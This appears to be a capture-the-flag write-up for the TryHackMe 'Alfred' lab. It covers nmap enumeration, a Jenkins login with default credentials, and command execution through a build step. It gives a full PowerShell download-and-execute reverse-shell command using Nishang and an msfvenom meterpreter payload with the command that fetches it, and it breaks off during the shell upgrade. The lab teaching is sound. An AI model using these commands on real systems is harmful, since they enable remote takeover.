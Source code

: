 
Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

[Alfred](https://tryhackme.com/room/alfred)

---

We will be exploiting this box today. According to the brief overview this is a windows application and it is recommended that we use the [Nishang](https://github.com/samratashok/nishang) project to gain initial access. Also they specified that we use this [specific script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Initial Access
## How many ports are open? (TCP only)

### Enumeration

#### nmap

```bash
┌──(root㉿kali)-[/home/z3tssu]
└─# nmap -v 10.10.34.156 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-12 07:56 +04
Initiating Parallel DNS resolution of 1 host. at 07:56
Completed Parallel DNS resolution of 1 host. at 07:56, 0.11s elapsed
Initiating SYN Stealth Scan at 07:56
Scanning 10.10.34.156 [1000 ports]
Discovered open port 80/tcp on 10.10.34.156
Discovered open port 8080/tcp on 10.10.34.156
Discovered open port 3389/tcp on 10.10.34.156
Completed SYN Stealth Scan at 07:56, 17.19s elapsed (1000 total ports)
Nmap scan report for 10.10.34.156
Host is up (0.25s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

There are 3 open ports from the Nmap scan above. Lets explore the webservers on port 80 and port 8080.

## What is the username and password for the login panel?

### Webserver Enumeration

Viewing the webserver on port 80:
![[Pasted image 20251013214110.png]]

Viewing the webserver on port 8080:
![[Pasted image 20251013214126.png]]
So there are two webservers, one is a website hosted claiming that Bruce Wayne is dead and there is an address specified:

```bash
alfred@wayneenterprises.com
```

The other one seems to be access to the Jenkins platform with a username and password field.

### Default Credentials
1. Lets try using admin:admin on the webserver login
2. It WORKED
![[Pasted image 20251013214248.png]]

## What is the User.txt flag?

We get a hint of how to continue exploiting this room

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server
### Finding the feature that allows for code execution
1. Navigate to the following: http://10.10.206.196:8080/job/project/configure
![[Pasted image 20251013215624.png]]

2. Once we put the code in side the code block we go back to the page and press "Build Now"
![[Pasted image 20251013215723.png]]
### Download the Nishang Script 
1. Run the following
```shell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
2. Start our webserver on out attacker machine with the following
```bash
python -m http.server 8000
```

### Exploit the command injection vulnerability
We can now exploit the command injection vulnerability in the vulnerable part of the application to get a reverse shell by the command below

```shell
powershell iex (New-Object  Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress your-ip -Port your-port
```

replace http://your-ip:your-port/Invoke-PowerShellTcp.ps1 with the address obtained from your updog webserver
```
powershell iex (New-Object  Net.WebClient).DownloadString('http://10.9.0.78:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress 10.9.0.78 -Port 4444
```

Copy the above command to the configure section as discussed above and when done, apply and save it, then press the build now button and now we should have a netcat shell activated back on our attacker machine

![[Pasted image 20251013220253.png]]

lets find the user.txt file now

use the following to quickly find a text file using powershell query
```shell
Get-ChildItem -Path C:\ -Filter "user.txt" -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20251013220613.png]]
### Read the file once found

```powershell
Get-Content C:\Users\bill\Desktop\user.txt
# or
type C:\Users\bill\Desktop\user.txt
```
![[Pasted image 20251013220646.png]]

# Switching Shells

Time to upgrade our shells from a simple netcat shell to a meterpreter shell
## Generate the MSFVenom Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```
## Download the payload on the webserver 
1. We already have our python server running
2. Lets download it from our attacker machine onto the webserver using the below command

```shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.0.75:8000/shell-name.exe','shell-name.exe')"
```



